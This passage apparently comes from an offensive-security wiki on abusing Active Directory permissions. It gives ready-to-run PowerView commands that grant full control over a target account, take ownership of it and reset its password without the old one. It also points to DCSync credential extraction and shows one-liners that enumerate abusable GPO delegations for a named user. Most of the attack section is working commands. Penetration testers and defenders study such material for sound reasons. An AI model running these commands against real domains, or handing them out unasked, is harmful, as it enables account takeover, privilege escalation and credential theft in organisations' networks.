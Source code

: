 ### WriteDACL/WriteOwner quick takeover (PowerView)

When you have `WriteOwner` and `WriteDacl` over a user or service account, you can take full control and reset its password using PowerView without knowing the old password:

```powershell
# Load PowerView
. .\PowerView.ps1

# Grant yourself full control over the target object (adds GenericAll in the DACL)
Add-DomainObjectAcl -Rights All -TargetIdentity <TargetUserOrDN> -PrincipalIdentity <YouOrYourGroup> -Verbose

# Set a new password for the target principal
$cred = ConvertTo-SecureString 'P@ssw0rd!2025#' -AsPlainText -Force
Set-DomainUserPassword -Identity <TargetUser> -AccountPassword $cred -Verbose
```

Notes:
- You may need to first change the owner to yourself if you only have `WriteOwner`:

```powershell
Set-DomainObjectOwner -Identity <TargetUser> -OwnerIdentity <You>
```

- Validate access with any protocol (SMB/LDAP/RDP/WinRM) after password reset.

## **Replication on the Domain (DCSync)**

The DCSync attack leverages specific replication permissions on the domain to mimic a Domain Controller and synchronize data, including user credentials. This powerful technique requires permissions like `DS-Replication-Get-Changes`, allowing attackers to extract sensitive information from the AD environment without direct access to a Domain Controller. [**Learn more about the DCSync attack here.**](../dcsync.md)

## GPO Delegation 

### GPO Delegation

Delegated access to manage Group Policy Objects (GPOs) can present significant security risks. For instance, if a user such as `offense\spotless` is delegated GPO management rights, they may have privileges like **WriteProperty**, **WriteDacl**, and **WriteOwner**. These permissions can be abused for malicious purposes, as identified using PowerView: `bash Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

### Enumerate GPO Permissions

To identify misconfigured GPOs, PowerSploit's cmdlets can be chained together. This allows for the discovery of GPOs that a specific user has permissions to manage: `powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

**Computers with a Given Policy Applied**: It's possible to resolve which computers a specific GPO applies to, helping understand the scope of potential impact. `powershell Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}`

